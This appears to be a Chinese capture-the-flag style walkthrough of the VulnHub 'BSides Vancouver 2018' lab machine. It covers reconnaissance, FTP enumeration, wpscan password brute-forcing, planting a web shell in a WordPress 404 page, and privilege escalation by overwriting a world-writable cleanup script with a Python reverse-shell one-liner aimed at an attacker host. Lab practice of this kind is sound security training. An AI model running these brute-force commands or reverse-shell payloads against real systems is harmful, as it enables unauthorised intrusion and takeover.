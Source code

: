 # 原创
：  VulnHub渗透测试实战靶场 - BSIDES VANCOUVER: 2018

# VulnHub渗透测试实战靶场 - BSIDES VANCOUVER: 2018

#### VulnHub渗透测试实战靶场 - BSIDES VANCOUVER: 2018

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/bsidesvancouver2018/BSides-Vancouver-2018-Workshop.ova)


## BSIDES VANCOUVER: 2018靶机搭建

> 
具体步骤参考[VirtualBox(Host only)和VMware共用同一虚拟网卡](https://blog.csdn.net/LYJ20010728/article/details/119395324?spm=1001.2014.3001.5501)



## 渗透测试

### 信息搜集

> 
用netdiscover探测一下目标靶机IP地址：`sudo netdiscover -r 192.168.56.0/24`


> 
用Nmap探测一下目标靶机的端口信息：`sudo nmap -sS -A 192.168.56.107`


> 
用dirb探测一下web目录：`dirb http://192.168.56.107`


### 漏洞挖掘

#### 方法一

> 
注意到前面扫描端口是发现开放了21端口，尝试匿名登录FTP获得用户，输入用户名：`anonymous`


> 
查看public文件夹内的`users.txt.bk`文件，下载到攻击机上，发现五个用户名


```
abatchy
john
mai
anne
doomguy

```

#### 方法二

> 
访问之前探测的web目录的结果：`http://192.168.56.107/robots.txt`<br/> 发现存在路径`http://192.168.56.107/backup_wordpress`


> 
扫描一下web路径：`http://192.168.56.107/backup_wordpress`


> 
用`wpscan`扫描WordPress，暴破后台用户名：


```
cwpscan --url http://192.168.56.107/backup_wordpress --enumerate u

```

> 
发现两个用户：`john、admin`


> 
用`wpscan`扫描WordPress，爆破后台密码：


```
wpscan --url http://192.168.56.107/backup_wordpress --passwords /home/kali/Desktop/ctf/fuzzDicts/darkweb2017-top10000.txt --usernames john                                                                                          

```

> 
成功得到一组用户名和密码：`john:enigma`


### getshell

#### 方法一

> 
采用`超级弱口令检查工具V1.0`进行暴破，线程选择4线程


> 
成功得到一组用户名和密码：`anne:princess`，连接ssh，成功getshell


#### 方法二

> 
用爆破得到的账号密码登录：`192.168.56.107/backup_wordpress/wp-login`


> 
编辑404页面，种马


> 
访问：`http://192.168.56.107/backup_wordpress/wp-content/themes/twentysixteen/404.php`，写入的代码成功执行


> 
用nc起一个监听，再次访问种马页面，成功反弹shell


### 提权

#### 方法一

> 
查看用户id以及组id信息，发现用户`anne`在sudo组，直接sudo提权，成功拿到root权限


#### 方法二

> 
查找每个用户文件，和浏览各目录文件，发现位于 `/usr/local/bin/cleanup` 文件，其权限是777，查看内容<br/> 为：


```
#!/bin/sh
rm -rf /var/log/apache2/* # Clean those damn logs!!

```

> 
由于此文件权限为777，直接修改为一个反弹shell


```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4321));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

> 
起一个nc监听，成功接收到反弹shell

